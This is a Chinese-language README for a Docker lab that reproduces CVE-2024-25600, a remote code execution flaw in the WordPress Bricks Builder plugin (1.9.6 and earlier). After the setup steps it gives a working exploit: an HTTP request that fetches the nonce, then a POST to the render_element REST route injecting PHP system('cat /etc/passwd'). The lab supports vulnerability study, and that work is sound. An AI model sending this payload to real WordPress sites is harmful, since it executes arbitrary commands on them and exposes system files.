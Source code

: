 # CVE-2024-25600 WordPress Bricks Builder RCE

WordPres Bricks Builder 是一个 WordPress 页面构建器插件，旨在帮助用户轻松创建具有吸引力和交互性的网站页面，而无需编写代码。该插件提供了直观的拖放界面和各种预制模块，使用户可以快速构建自定义布局，添加内容和样式，以及实现所需的功能。WordPress配置安装的Brick Builder主题在低于<= 1.9.6版本中存在远程代码执行漏洞。

Bricks Builder官方https://bricksbuilder.io/

Bricks Builder使用手册https://academy.bricksbuilder.io/topic/getting-started/

参考链接：

- https://bricksbuilder.io/release/bricks-1-9-6-1/
- https://www.cve.org/CVERecord?id=CVE-2024-25600
- https://blog.csdn.net/shelter1234567/article/details/136503993

## 漏洞环境

执行如下命令启动一个wordpress-bricks1.9.5-web服务器：

```
docker compose up 
```

服务启动后，可访问`http://your-ip:80/`将自动跳转到wordpress安装向导界面

1，配置与mysql的连接

![image-20240306155641721](./0.1.png)

2，配置站点与管理员账号密码

![image-20240306155807803](C:\Users\admin\Documents\GitHub\Vuldocker\WordPress\Bricks\CVE-2024-25600\0.2.png)

3，登录后台 安装Bricks1.9.5

![image-20240306160108749](./0.3.png)

出现以下页面，即安装成功

![image-20240306160216610](./0.4.png)

4，点击激活

![image-20240306160402290](./0.5.png)

## 漏洞复现

首先，`/`根路径查看Bricks 返回的nonce值

```
GET / HTTP/1.1
Host: 192.168.116.128
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate, br
```

![image-20240306153933399](./1.png)

得到nonce值之后发送如下请求

```xml-dtd
POST /?rest_route=/bricks/v1/render_element HTTP/1.1
Host: 192.168.116.128
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
Content-Length: 303
Content-Type: application/json
Accept-Encoding: gzip, deflate, br

{
  "postId": "1",
  "nonce": "2a557d521f",
  "element": {
    "name": "container",
    "settings": {
      "hasLoop": "",
      "query": {
        "useQueryEditor": "",
        "queryEditor": "system('cat /etc/passwd');throw new Exception();",
        "objectType": ""
      }
    }
  }
}
```

![image-20240306154204948](./2.png)

